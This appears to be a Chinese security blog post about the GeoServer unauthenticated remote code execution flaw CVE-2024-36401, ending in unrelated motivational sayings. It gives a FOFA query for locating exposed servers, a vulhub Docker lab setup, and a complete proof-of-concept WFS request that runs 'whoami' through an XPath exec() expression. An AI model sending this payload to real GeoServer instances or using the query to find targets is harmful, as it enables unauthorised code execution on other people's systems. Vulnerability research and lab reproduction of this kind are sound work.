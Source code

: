 #  GeoServer 远程代码执行漏洞（CVE-2024-36401）   
原创 SXdysq  南街老友   2024-07-03 23:26  
  
**漏洞简介**  
  
GeoServer 是 OpenGIS Web 服务器规范的 J2EE 实现，利用 GeoServer 可以方便的发布地图数据，允许用户对特征数据进行更新、删除、插入操作。  
  
在GeoServer 2.25.1， 2.24.3， 2.23.5版本及以前，未登录的任意用户可以通过构造恶意OGC请求，在默认安装的服务器中执行XPath表达式，进而利用执行Apache Commons Jxpath提供的功能执行任意代码。  
  
**网络测绘**  
```
FOFA：app="GeoServer"
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/dfviaLov8RtB3afuqOgCCfn9hfbpicGj0mKEckuZmoJMZb0bnDWEXlaEj2U2ZPu261aicK1ibAiaslicazuXE6Q2jYrQ/640?wx_fmt=png&from=appmsg "")  
  
**环境搭建**  
```
#docker-compose.yml文件
version: '3'
services:
 web:
   image: vulhub/geoserver:2.23.2
   ports:
    - "8080:8080"
    - "5005:5005"
```  
```
docker compose up -d
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/dfviaLov8RtB3afuqOgCCfn9hfbpicGj0mKKczQxvHsN1q5gOBOBWic3ZajTn5Z6Tqqcc5Agx2Nsq7zB8GB3IIfww/640?wx_fmt=png&from=appmsg "")  
  
**漏洞Poc‍‍**  
```
POST /geoserver/wfs HTTP/1.1
Host: 
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.6367.118 Safari/537.36
Content-Type: application/xml

<wfs:GetPropertyValue service='WFS' version='2.0.0'
 xmlns:topp='http://www.openplans.org/topp'
 xmlns:fes='http://www.opengis.net/fes/2.0'
 xmlns:wfs='http://www.opengis.net/wfs/2.0'>
  <wfs:Query typeNames='sf:archsites'/>
  <wfs:valueReference>exec(java.lang.Runtime.getRuntime(),'whoami')</wfs:valueReference>
</wfs:GetPropertyValue>
```  
  
**漏洞检测与利用‍**  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_gif/dfviaLov8RtB3afuqOgCCfn9hfbpicGj0myCstvyrrLOtibpShVGndpZjoQXFWSmdnicbGZ5Dm1D37wtrfLicr1ePibQ/640?wx_fmt=gif&from=appmsg "")  
  
  
**🍻🍻🍻🍻🍻🍻**  
1. **拥抱挑战**：每一次的困难都是你成长的机会，只要你勇敢面对，终将会迎来曙光。  
  
1. **相信自己**：无论身处何种境地，记住你比你想象中更坚强、更有潜力。  
  
1. **坚持梦想**：梦想是指引你前行的灯塔，尽管道路坎坷，追寻的过程会让你变得更强大。  
  
1. **珍惜当下**：生活中的每一个瞬间都是独一无二的礼物，享受现在，活在当下。  
  
1. **不断学习**：知识是你通往成功的钥匙，终身学习不仅丰富了你的思想，也开拓了你的视野。  
  
1. **善待自己**：你是最值得爱护的人，善待自己，给自己多一点耐心和关怀。  
  
1. **传播善意**：一句温暖的话语，一个友善的举动，能够点亮他人的一天，也能让你感受到无尽的温暖。  
  
1. **拥抱变化**：变化是生活的一部分，学会适应和迎接变化，你会发现生活充满了新的可能性。  
  
1. **感恩生活**：感恩所拥有的一切，无论好坏，都是人生的一部分，教会你成长和成熟。  
  
1. **勇敢追梦**：不要因为恐惧而退缩，勇敢追逐你的梦想，因为梦想成真的那一天，一切付出都会变得值得。  
  
